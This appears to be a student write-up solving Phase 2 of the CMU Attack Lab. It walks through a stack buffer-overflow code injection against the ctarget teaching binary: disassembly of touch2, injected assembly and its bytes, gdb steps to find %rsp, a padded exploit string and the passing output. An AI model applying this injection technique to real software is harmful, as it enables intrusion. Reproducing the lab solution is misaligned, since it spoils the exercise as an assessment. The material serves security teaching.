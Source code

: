 Phase 2 involves injecting a little code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the rtarget and search for touch2, it looks something like this:

```
000000000040178c <touch2>:
  40178c:	48 83 ec 08          	sub    $0x8,%rsp
  401790:	89 fe                	mov    %edi,%esi
  401792:	c7 05 e0 30 20 00 02 	movl   $0x2,0x2030e0(%rip)        # 60487c <vlevel>
  401799:	00 00 00 
  40179c:	3b 3d e2 30 20 00    	cmp    0x2030e2(%rip),%edi        # 604884 <cookie>
  4017a2:	75 1b                	jne    4017bf <touch2+0x33>
  4017a4:	bf a0 30 40 00       	mov    $0x4030a0,%edi
  4017a9:	b8 00 00 00 00       	mov    $0x0,%eax
  4017ae:	e8 8d f4 ff ff       	callq  400c40 <printf@plt>
  4017b3:	bf 02 00 00 00       	mov    $0x2,%edi
  4017b8:	e8 dc 04 00 00       	callq  401c99 <validate>
  4017bd:	eb 19                	jmp    4017d8 <touch2+0x4c>
  4017bf:	bf c8 30 40 00       	mov    $0x4030c8,%edi
  4017c4:	b8 00 00 00 00       	mov    $0x0,%eax
  4017c9:	e8 72 f4 ff ff       	callq  400c40 <printf@plt>
  4017ce:	bf 02 00 00 00       	mov    $0x2,%edi
  4017d3:	e8 73 05 00 00       	callq  401d4b <fail>
  4017d8:	bf 00 00 00 00       	mov    $0x0,%edi
  4017dd:	e8 ce f5 ff ff       	callq  400db0 <exit@plt>
```

If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi." 

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called phase2.s and write the below code, replacing the cookie and return address with yours

```
  movq $0x434b4b70,%rdi /* move your cookie to register %rdi */
  pushq $0x0040178c     /* push the address of touch2 to the stack */
  retq                  /* return */
```

Now you need the byte representation of the code you wrote above. compile it with gcc then dissasemble it

```
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```

Now open the file phase2.d and you will get something like below

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 70 4b 4b 43 	mov    $0x434b4b70,%rdi
   7:	68 8c 17 40 00       	pushq  $0x40178c
   c:	c3                   	retq   
```

The byte representation of the assembly code is `48 c7 c7 70 4b 4b 43 68 8c 17 40 00 c3`

Now you need to find the address of the %rsp register and pass it as the return address since it will execute our injected code

run ctarget through gdb 

`gdb ctarget`

set a breakpoint at getbuf 

`b getbuf`

run ctarget

`r`

print all the registers 

`info r`

That will prnt the addresses for all registers, grab the one for rsp

Now, create a text file named phase2.txt which will look something like below
```
48 c7 c7 70 4b 4b 43 68
8c 17 40 00 c3 00 00 00 /* first 13 bytes of the 24 bytes are the injected code, the rest is just padding */
00 00 00 00 00 00 00 00
28 38 62 55 00 00 00 00 /* address of register %rsp */
```

Run it through hex2raw

`./hex2raw < phase2.txt > raw-phase2.txt`

Finally, you run the raw file

`./ctarget < raw-phase2.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
